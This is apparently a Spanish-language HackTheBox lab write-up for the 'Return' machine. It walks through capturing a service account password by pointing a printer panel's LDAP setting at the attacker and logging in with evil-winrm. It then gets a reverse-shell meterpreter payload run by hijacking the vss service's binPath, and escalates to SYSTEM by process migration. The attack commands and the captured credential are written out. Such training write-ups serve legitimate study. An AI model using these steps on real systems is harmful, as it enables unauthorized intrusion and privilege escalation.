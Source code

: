 # Return

**Platform:** HackTheBox  
**Difficulty:** Easy  
**IP:** 10.10.32.21 

---

## 1. Información Inicial
- **Objetivo:** Obtener las tres llaves mediante pruebas de penetración.  
- **Herramientas iniciales:** `nmap`, `netcat`, `evil-winrm`, `msfconsole`, `msfvenom`, `meterpreter`.

---

## 2. Reconocimiento y enumeración

Primero realizamos un escaneo  con `Nmap` para identificar los servicios abiertos, aunque viendo los puertos 139 y 445 sabemos que se trata de un Active Directory.
```bash 
nmap -sC -sV -Pn -p- -sS 10.129.95.241
```

![Escaneo con nmap para descubrimiento de puertos y servicios](screenshots/1.nmap.png)

Añadiremos la máqunia al fichero /etc/hosts con el dominio que nos muestra LDAP:
```bash 
echo "110.129.95.241 return.local" | sudo tee -a /etc/hosts
```

Tras analizar los puertos básicos como SMB y no encontrar nada, precedemos a examinar el sitio web

![Vista previa del sitio web](screenshots/2.sitio_web.png)

En el sitio web encontramos un panel de administración para la gestión de impresoras. Si accedemos a la opción Settings tenemos varios parámetros como el servidor al que conectarse, el puerto, el usuario y una contraseña.

![Vista de Settings en sitio web](screenshots/3.web_settings.png)

## 3. Explotación

Guardaremos el nombre del usuario por si nos puede servir en un futuro, y luego cambiamos la dirección del servidor por nuestra dirección IP. 

De esta manera, recibiremos una petición de conexión y debemos de tener a la escucha `netcat` para recibirla

```bash 
nc -lvnp 389
```
![Netcat recibiendo conexión](screenshots/4.netcat.png)

Al establecerse la conexión, recibimos un mensaje que parece una credencial de contraseña: `1edFg43012!!`

Podría estar relacionada con el nombre de usuario encontrado en la web, y de esa manera tener las credenciales completas: `svc-printer:1edFg43012!!`

Teniendo en cuenta que con Nmap hemos descubierto que se trataba de un Active Directory, vamos a usar las credenciales para entrar al servicio de administración remota de Windows con `Evil-WinRM`:

```bash 
evil-winrm -i 110.129.95.241 -u svc-printer -p '1edFg43012!!
```

![Accediendo por Evil-WinRM](screenshots/5.evilwinrm.png)

## 4. Postexplotación

Hemos conseguido acceso a través de la herramienta Evil-WinRM y estamos dentro del sistema, por lo que vamos a comenzar a buscar algún punto vulnerable para escalar privilegios.

Tras algunas enumeraciones, se nos ocurre ver los grupos a los que pertenece el usuario desde el que hemos accedido.

```bash 
net user svc-printer
```

![Comprobación de grupos a los que pertenece el usuario](screenshots/6.grupos_usuario.png)

El usuario pertenece al grupo Server Operators, desde el cuál puede iniciar y parar servicios o hacer y restaurar backups, entre otras funciones.

La idea es crear un exploit con MSFVenom, subirlo por Evil-WinRM y ejecutarlo para recibir una conexión desde Multi/Handler.

```bash 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.39 LPORT=1337 -f exe > shell-x86.exe
```

![Poniendo a la escucha Multi/Handler a través de Metasploit](screenshots/7.multi_handler.png)

```bash 
msfconsole
```
```bash 
use exploit/multi/handler
```
```bash 
set PAYLOAD windows/meterpreter/reverse_tcp
```
```bash 
set LHOST 10.10.14.39
```
```bash 
set LPORT 1337
```
```bash 
run
```

Ahora vamos a subir el fichero a la máquina víctima aprovechando los permisos que le otorga su grupo para poder obtener una shell.

Investigando por internet, di con una metodología que funcionaba cuando el usuario formaba parte de este grupo, y es que debemos de subir el fichero y utilizando sc.exe (ServiceControl) vamos a modificar un servicio (vss) para indicarle al sistema que su PATH es distinto (será la ubicación de nuestro fichero malicioso).

De esta manera, cada vez que se ejecute el servicio vss se estará ejecutando el exploit de MSFVenom.

```bash 
upload shell-x86.exe
```
```bash 
cd C:\
```
```bash 
sc.exe config vss binPath="C:\Users\svc-printer\Documents\shell-x86.exe"
```
```bash 
sc.exe start vss
```
![Modificación y ejecución del exploit](screenshots/8.ejecutar_script.png)

Con Metasploit a la escucha y el exploit ejecutado, solo queda recibir la conexión a Meterpreter por parte de la máquina víctima.

![Meterpreter recibiendo la conexión de la máquina víctima](screenshots/9.meterpreter.png)

Con la sesión de meterpreter aún no tenemos todos los privilegios necesarios, por lo que listamos los procesos y encontramos el proceso VGAuthService.exe (Servicio de VMWare Tools que se ejecuta como SYSTEM). Migramos la sesión de Meterpreter a ese proceso y estaremos obteniendo permisos de NT AUTHORITY/SYSTEM.
```bash 
ps
```
```bash 
migrate 3236
```
```bash 
shell
```

![Meterpreter recibiendo la conexión de la máquina víctima](screenshots/10.escala_administrador.png)
